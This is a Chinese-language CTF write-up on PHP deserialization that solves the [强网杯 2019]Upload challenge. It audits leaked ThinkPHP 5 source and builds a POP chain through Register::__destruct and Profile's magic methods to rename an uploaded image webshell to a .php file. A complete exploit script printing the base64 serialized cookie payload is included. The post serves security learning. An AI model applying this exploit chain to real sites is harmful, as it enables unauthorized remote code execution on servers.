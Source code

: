 ```yaml
---
title: "反序列化相关"
date: 2020-04-04
description: "记录CTF中遇到的反序列化题型"
categories: [
  "CTF"
]
tags: [
  "反序列化"
]
---
```


## [强网杯 2019]Upload

- 首先登陆界面，尝试万能密码，fuzz一波基本排除sql注入

- 扫扫扫，喜闻`[200] => www.tar.gz`，存在源码泄露`www.tar.gz`

- 解压发现是TP5的代码，审计

- Seay扫到`Profile`存在可疑利用，审计后排除，但是发现存在奇妙的`__get`和`__cal`，怀疑反序列化

  ```js
  public function __get($name)
  {
      return $this->except[$name];
  }
    
  public function __call($name, $arguments)
  {
      if($this->{$name}){
          $this->{$this->{$name}}($arguments);
      }
  }
  ```

- `index.php`中发现未过滤的`unserialize`

  ```js
  public function login_check(){
      $profile=cookie('user');
      if(!empty($profile)){
          $this->profile=unserialize(base64_decode($profile));
          $this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
          if(array_diff($this->profile_db,$this->profile)==null){
              return 1;
          }else{
              return 0;
          }
      }
  }
  ```

- 未发现eval等RCE点存在，考虑结合文件上传getshell，查找文件操作相关函数

  `Profile.php`存在关键函数

  ```js
  public function upload_img(){
      if($this->checker){
          if(!$this->checker->login_check()){
              $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
              $this->redirect($curr_url,302);
              exit();
          }
      }
    
      if(!empty($_FILES)){ // 构造反序列化 使$_FILES为空 跳过该块
          $this->filename_tmp=$_FILES['upload_file']['tmp_name'];
          $this->filename=md5($_FILES['upload_file']['name']).".png";
          $this->ext_check();
      }
      if($this->ext) { // 结合反序列化 任意重命名 更改图片马后缀
          if(getimagesize($this->filename_tmp)) {
              @copy($this->filename_tmp, $this->filename);
              @unlink($this->filename_tmp);
              $this->img="../upload/$this->upload_menu/$this->filename";
              $this->update_img();
          }else{
              $this->error('Forbidden type!', url('../index'));
          }
      }else{
          $this->error('Unknow file type!', url('../index'));
      }
  }
  ```

- 套路`GIF89a`上传绕过

- 最后构造pop链

  > Register::__destruct()->Profile::__call()->Profile::__get()->Profile::except[$name]()

  构造$name=‘index’，except[‘index’]=‘upload_img’ 以及filename等细节 实现任意重命名

```php
<?php

namespace app\web\controller;
class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __construct()
    {

    }

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __construct()
    {
    }

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }
}

$b = new Profile();
$b->except = array('index'=>'img');
$b->img = "upload_img";
$b->ext = true;
$b->filename = "./upload/76d9f00467e5ee6abc3ca60892ef304e/hack.php";
$b->filename_tmp = "./upload/76d9f00467e5ee6abc3ca60892ef304e/daf280af792fd5b906511363ae2bc39d.png";

$a = new Register();
$a->registed = false;
$a->checker = $b;
echo base64_encode(serialize($a));
```

> 比较坑的是，注意反序列化需要带上 namespace，而直接在thinkphp内跑exp会被catch掉报错，无法回显，因此需要把pop链整个copy出来跑一个exp.php